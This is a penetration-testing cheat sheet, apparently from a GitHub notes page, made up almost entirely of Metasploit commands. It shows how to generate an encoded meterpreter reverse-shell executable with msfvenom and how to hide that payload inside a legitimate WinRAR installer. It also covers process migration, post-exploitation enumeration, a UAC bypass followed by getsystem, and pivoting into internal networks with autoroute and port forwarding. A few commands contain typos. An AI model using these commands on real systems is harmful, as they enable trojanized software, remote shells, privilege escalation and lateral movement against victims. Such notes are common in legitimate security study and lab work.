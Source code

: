 ```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -i 10 -e x86/shikata_ga_nai -f exe 

INJECTING PAYLOADS
- download a pe32 file that allows injection, like WINRAR setup file, the -k option preserves the behavior of the exe so it does its function even after sending shell.

msfvenom -p windows/meterpreter/reverse_tcp LHOS LPORT -e x86/shikata_ga_nai -f exe -x ./winrar32.exe -o embed.exe

AUTO PROCESS MIGRATE (post exp module)
run post/windows/manage/migrate
```

### Post exploitation stuff
```bash
# searching for post exp modules to run
search upgrade platform:windows
search migrate platform:windows
search enum_applications
search enum_patches
search enum_shares
```
#### UAC bypass
```bash
# useful when you are in localadmin group but you arent system
search bypassuac
use bypassuac_injection
set payload $APPROPRIATE_BIT_PAYLOAD_ARCH
set target $APPROPRIATE_BIT_ARCHITECTURE

# after using the bypass, getsystem
getsystem
```
#### Pivoting
>find dual homed machine - the jump host  then - 
```bash
# say the jumphost has an interface with addy and mask of : 10.10.100.50 | 255.255.224.0
run autoroute -s 10.10.100.0/19
# include 100 because some of the bits of the network address space falls there
```
> host discovery ;-
```ruby
auxiliary/scanner/discovery/arp_sweep
run post/windows/gather/arp_scanner
post/multi/gather/ping_sweep
```
>portscan the host : -
```ruby
# you can reach the hosts from within msf but cant from outside msf.
use portscan/tcp
set rport 1-100 
set rhost $$
```
> say we wanna attack port 80 on the internal host, but want to accurately fingerprint the open port - Portforward :-
```bash
portfwd add -l 1337 -p 80 -r $TARGET_INTERNAL_IP
#confirm
portfwd list

#scan the port with nmap outside msf or inside 
nnmap -p 1337 localhost -sVC
```